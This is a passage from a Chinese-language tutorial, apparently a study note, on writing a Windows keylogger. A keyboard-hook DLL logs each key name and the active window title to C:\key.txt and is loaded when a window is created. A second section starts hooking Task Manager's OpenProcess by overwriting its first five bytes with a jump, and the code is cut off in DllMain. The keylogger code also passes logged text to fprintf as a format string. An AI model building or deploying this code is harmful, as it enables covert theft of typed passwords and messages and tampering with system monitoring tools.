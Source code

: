 ```cpp
    // 拿到键盘按下字符
    //      排除某些不能拿的键，比如esc
    if (code<0||code==HC_NOREMOVE)
        return CallNextHookEx(hHook, code, wParam, lParam);
    if (lParam & 0x40000000)
        return CallNextHookEx(hHook, code, wParam, lParam);
    //      获取按键字符
    char keyTexrBuff[256] = { 0 };
    GetKeyNameTextA(lParam, keyTexrBuff, 255);
    // 拼接标题栏字符和输入字符
    char buff[256] = { 0 };
    sprintf(buff, "%s --- %s\n", windowsTestBuff, keyTexrBuff);
    // 保存文件
    FILE* fp = fopen("C:\\key.txt", "a");
    fprintf(fp, buff);
    fclose(fp);
    return CallNextHookEx(hHook, code, wParam, lParam);
}
```
**step3:**
在keyboard项目中调用dll
思路是在窗口创建时就hook键盘消息
![image.png](https://cdn.nlark.com/yuque/0/2020/png/2212593/1597300704257-9ad45a92-92c5-4c19-b2d8-4c2ae0be6d61.png#align=left&display=inline&height=321&margin=%5Bobject%20Object%5D&name=image.png&originHeight=642&originWidth=1818&size=98019&status=done&style=none&width=909)
在WndProc函数中添加一个case，`WM_CREATE`是创建窗口的时候
记得要自定义一个DLLWITHLIB的函数指针，名字随便啦
**step4**:
先生成dll，然后把dll放入keyboard文件夹，再运行
![image.png](https://cdn.nlark.com/yuque/0/2020/png/2212593/1597301179632-e71f3609-fb03-42c8-9d96-d4772bb5144b.png#align=left&display=inline&height=720&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1440&originWidth=1080&size=1681775&status=done&style=none&width=540)
**step4：**
运行
记录下了按键
![image.png](https://cdn.nlark.com/yuque/0/2020/png/2212593/1597301262387-e7d7b325-6fcd-4fd2-b535-ff464125e28e.png#align=left&display=inline&height=380&margin=%5Bobject%20Object%5D&name=image.png&originHeight=760&originWidth=1932&size=95520&status=done&style=none&width=966)
### hook任务管理器
参考看雪这篇[文章](https://bbs.pediy.com/thread-228669.htm)
通过hook openProcess这个API，修改openProcess这个API，直接跳转到我们定义的代码


思路
OpenProcess在kernalbase.dll中，用LoadLibrary加载kernalbase.dll得到基址，
然后后用GetProcessAddress找到OpenProcess的地址
替换kernelbase.dll里面的**OpenProcess**的前面5个字节为jmp跳转到我们自己的地址

**step1:**
新建一个空白解决方案
新建一个hook任务管理器的dll项目，和一个dll注入的空白项目
![image.png](https://cdn.nlark.com/yuque/0/2020/png/2212593/1597312117443-30d02c39-7242-46df-99e3-3076df60256a.png#align=left&display=inline&height=804&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1607&originWidth=600&size=69066&status=done&style=none&width=300)
**step2:**
dll代码用上面文章的代码，稍微改了一点点，没什么差别
```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
DWORD oldProtect;
BYTE  JmpBtye[5];
BYTE  OldByte[5];
void * OpenProcessaddr;
bool H1_OpenProcess();
void UnHook();
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
```